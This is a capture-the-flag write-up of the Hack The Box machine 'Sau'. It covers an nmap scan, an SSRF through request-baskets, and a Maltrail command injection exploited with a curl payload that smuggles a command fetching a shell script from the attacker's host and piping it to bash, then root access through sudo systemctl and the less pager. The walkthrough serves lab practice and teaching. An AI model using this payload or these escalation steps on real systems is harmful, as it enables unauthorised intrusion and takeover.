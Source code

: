 # Sau(HTB)

![Untitled](Sau(HTB)/assets/images/sau/0.png)

# NMAP

```bash
# Nmap 7.93 scan initiated Thu Jan  4 23:10:22 2024 as: nmap -sC -sV -oA nmap/sau 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 04 Jan 2024 15:10:58 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=1/4%Time=6596CA67%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  4 23:11:55 2024 -- 1 IP address (1 host up) scanned in 93.21 seconds
```

# Recon

Looking at the NMAP results we see that 3 ports are open. Port 22, 80 and 55555 are all open. However, port 80 is filtered meaning that the port is open but it is inaccessible externally. My first guess when I saw that filtered port in the NMAP result was that we would most likely have to find a SSRF (Server-Side Request Forgery) to elicit requests to port 80.  With that in mind I went to check out the web server that is running on port 55555.

![Untitled](Sau(HTB)/assets/images/sau/1.png)

Visiting port 55555 brings us to this webpage. From looking at the page we learn that this webpage is just a simple HTTP request bin that collects and intercepts HTTP requests. 

Lets Create a basket and test out the website!

![Untitled](Sau(HTB)/assets/images/sau/2.png)

If we now send a curl request to the URL of our basket

```bash
curl http://10.10.11.224:5555/utslgxu
```

we get a record of our request.

![Untitled](Sau(HTB)/assets/images/sau/3.png)

# USER

Looking at the settings for my basket we find a very promising settings that could potentially lead to SSRF.

![Untitled](Sau(HTB)/assets/images/sau/4.png)

The **`Forward URL`** configuration allows the user to forward the http request to another URL and by enabling the **`Proxy Response`** we could look at the response of the request that has been forwarded to another URL. From what we’ve seen, this feature basically works like a VPN for us. 

We configure the basket to forward our request to `**[http://127.0.0.1:80](http://127.0.0.1:80)`** and show us the response.

![Untitled](Sau(HTB)/assets/images/sau/5.png)

Now let’s try to hit the port 80 that we couldn’t previously access. 

![Untitled](Sau(HTB)/assets/images/sau/6.png)

We get greeted by the web page that is running on port 80. 

> *Since only the HTML is rendered and not the JS hence why the page looks so odd*
> 

Looking at the web page we see that it is running a service called Maltrail. A quick google search will reveal that Maltrail is an open sourced malicious traffic detection system. Googling the version will also reveal a OS Command Injection vulnerability affecting the version that is running on this instance.

```python
subprocess.check_output("logger -p auth.info -t \"%s[%d]\" \"%s password for %s from %s port %s\"" % (NAME.lower(), os.getpid(), "Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1]), stderr=subprocess.STDOUT, shell=True)
```

This line of code is the culprit for this OS Command Injection. From my understanding, the cause of this vulnerability is due to the fact that the `**shell=TRUE`** was set and our user input isn’t properly sanitized before being inserted into the command. Therefore, an attacker could just insert their own commands leading to Command injection.

Now that we are aware of the vulnerability, lets exploit it to get a SHELL on the machine.

```bash
curl http://10.10.11.224/utslgxu --data 'username=;`curl 10.10.14.123:8000/shell|bash`'
```

# Privilege Escalation

Now that we are on the box as the user puma, we can do our usual privilege escalation enumeration. Starting with `**sudo -l**`

![Untitled](Sau(HTB)/assets/images/sau/7.png)

We can see that we can run systemctl with sudo. A quick GTFO bin search will show a way to exploit this.

> [https://gtfobins.github.io/](https://gtfobins.github.io/)
> 

![Untitled](Sau(HTB)/assets/images/sau/8.png)

Basically when `**systemctl**` is ran with sudo the default pager `**less`** will be ran with sudo privileges as well. 

> A pager is **a tool for displaying the contents of files or other output on the terminal, in a user friendly way, across several screens if needed**.
> 

And when we get put into the pager in this case it is `**less` . W**e can spawn a shell with the `**!sh**` command when we are in the less pager, giving us a shell as the root user!

![Untitled](Sau(HTB)/assets/images/sau/9.png)
